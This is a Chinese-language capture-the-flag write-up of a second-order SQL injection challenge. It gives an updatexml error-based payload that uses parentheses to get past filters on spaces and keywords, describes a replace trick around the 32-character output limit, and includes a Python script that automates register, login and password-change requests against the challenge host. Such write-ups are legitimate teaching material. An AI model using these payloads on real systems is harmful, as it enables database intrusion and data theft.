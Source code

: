 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161136787.png)

先注册一个用户, 这里用双引号, 之前用单引号的时候不能报错 (后面看到官方 wp 里写到注册 `aaa\` 用户, 也是一种检测方法)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161137730.png)

下面的几个链接测试后发现没有注入...

看看个人中心

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161147067.png)

修改密码

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161148761.png)

有注入, 测试后发现 and * 和空格都被过滤了, 可以用括号绕过

最终构造的 payload 如下

```
1"&&(updatexml(1,concat(0x7e,(select(user())),0x7e),1))#
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161151930.png)

后面就是常规的查表查字段

查数据的时候发现程序过滤了 substr substring mid left right 这些字符串截取的函数, 而且 updatexml 存在最大 32 位的长度限制

一种思路是写脚本盲注

另一种思路是利用 replace 替换掉之前已经查出的内容, 这样再查询返回的结果就是 32 位以后的内容了

因为一直重复 register login changepwd 的操作比较麻烦, 就写了个脚本

```python
import requests

session = requests.session()

def register(sql):
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/register.php'
    data = {
    'username': sql,
    'password': '1',
    'email': '1'
    }
    _ = session.post(url,data=data)

def login(sql):
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/login.php'
    data = {
    'username': sql,
    'password': '1'
    }
    _ = session.post(url,data=data)
def changepwd():
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/changepwd.php'
    data = {
    'oldpass': '1',
    'newpass': '1'
    }
    res = session.post(url,data=data)
    print(res.text.replace('<form action="" method="post"><p>oldpass: <input type="text" name="oldpass" /></p><p>newpass: <input type="text" name="newpass" /></p><input type="submit" value="Submit" /></form>',''))

```